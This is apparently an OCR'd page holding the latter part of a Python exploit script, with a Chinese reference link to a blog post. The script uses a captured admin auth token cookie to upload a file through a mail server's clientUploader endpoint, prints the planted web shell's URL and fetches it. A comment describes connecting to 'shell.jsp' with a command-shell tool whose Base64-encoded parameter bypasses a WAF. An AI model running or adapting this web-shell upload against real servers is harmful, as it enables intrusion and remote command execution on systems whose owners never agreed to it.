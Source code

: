 ```python

admin_token =pattern_auth_token.findall(r.text)[0]
#print("ADMIN_TOKEN:"+admin_token)

f = {
    'filename1':(None,"whocare",None),
    'clientFile':(filename,fileContent,"text/plain"),
    'requestId':(None,"12",None),
}

headers ={
    "Cookie":"ZM_ADMIN_AUTH_TOKEN="+admin_token+";"
}
print("[*] Uploading file")
r = requests.post(base_url+"/service/extension/clientUploader/upload",files=f,headers=headers,verify=False)
#print(r.text)
print("Shell: "+base_url+"/downloads/"+filename)
#print("Connect \"shell.jsp\" using K8fly CmdShell\nBecause the CMD parameter is encrypted using Base64(bypass WAF)")
print("[*] Request Result:")
s = requests.session()
r = s.get(base_url+"/downloads/"+filename,verify=False,headers=headers)
#print(r.text)
print("May need cookie:")
print(headers['Cookie'])
```

参考链接

https://www.cnblogs.com/dgjnszf/p/10793604.html